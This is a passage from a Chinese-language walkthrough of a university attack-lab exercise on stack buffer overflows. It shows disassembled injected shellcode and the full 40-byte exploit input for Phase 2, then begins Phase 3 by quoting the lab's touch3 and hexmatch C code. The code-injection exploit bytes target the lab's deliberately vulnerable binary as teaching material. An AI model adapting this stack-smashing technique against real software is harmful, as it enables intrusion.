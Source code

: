 得到字节级表示

```c
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

将这段代码放到40个字节中的开头，代码地址放到末尾。于是就得到输入为：

```bash
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3

### 分析

本题与上题类似，不同点在于传的参数是一个字符串。先给出`touch3`的C语言代码

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

`touch3`中调用了`hexmatch`，它的C语言代码为：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
